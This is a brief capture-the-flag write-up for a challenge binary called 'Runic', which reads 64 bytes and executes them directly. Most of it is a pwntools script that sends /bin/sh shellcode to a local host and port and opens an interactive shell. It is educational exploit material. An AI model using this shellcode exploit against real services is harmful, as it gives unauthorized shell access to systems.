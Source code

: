 # Runic

Below is the main function for Runic:

![Runic main](runic.png)

The following events happen:
    * read() of 0x40 bytes (64 bytes)
    * call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

```python
import sys
from pwn import * # pip install pwntools

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
```
